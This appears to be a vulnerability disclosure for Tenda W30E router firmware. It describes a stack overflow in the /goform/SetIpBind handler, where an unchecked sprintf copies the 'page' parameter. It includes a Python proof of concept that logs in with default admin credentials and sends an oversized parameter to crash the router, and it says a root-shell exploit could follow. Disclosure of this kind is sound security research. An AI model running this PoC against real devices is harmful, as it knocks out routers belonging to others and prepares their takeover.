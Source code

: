 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/SetIpBind/img/2.png)

In /goform/SetIpBind, the page will be spliced into s by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

cmd = b'page=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/SetIpBind/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell

